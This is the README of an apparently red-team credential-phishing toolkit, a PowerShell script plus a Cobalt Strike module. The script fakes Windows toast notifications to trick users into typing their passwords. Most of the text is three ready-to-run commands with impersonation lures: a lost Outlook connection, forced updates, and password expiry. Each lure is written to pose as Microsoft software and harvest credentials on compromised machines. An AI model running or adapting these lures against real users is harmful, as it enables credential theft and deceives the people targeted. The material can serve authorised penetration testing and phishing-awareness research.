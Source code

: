 ﻿# Invoke-CredentialPhisher

This repository consists of two files:
* Invoke-Credentialphiher.ps1
* phishing_module.cna

The first one is a powershell script to send toast notifications on behalf on an (installed) application or the computer itself. The user will be asked to supply credentials once they click on the notification toast. The second one is a Cobalt Strike module to launch the phishing attack on connected beacons. More information on why these scripts were created can be found on the following blogpost: https://blog.fox-it.com/2018/08/14/phishing-ask-and-ye-shall-receive/

# Examples

Outlook connection:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Microsoft Office Outlook" -ToastMessage "Connection to Microsoft Exchange has been lost.`r`nClick here to restore the connection" -Application "Outlook" -credBoxTitle "Microsoft Outlook" -credBoxMessage "Enter password for user '{emailaddress|samaccountname}'" -ToastType Application -HideProcesses```  

Updates are available:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Updates are available" -ToastMessage "Your computer will restart in 5 minutes to install the updates" -credBoxTitle "Credentials needed" -credBoxMessage "Please specify your credentials in order to postpone the updates" -ToastType System -Application "System Configuration" ```  

Password expiration:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Consider changing your password" -ToastMessage "Your password will expire in 5 minutes.`r`nTo change your password, click here or press CTRL+ALT+DELETE and then click 'Change a password'." -Application "Control Panel" -credBoxTitle "Windows Password reset" -credBoxMessage "Enter password for user '{samaccountname}'" -ToastType "Application"```
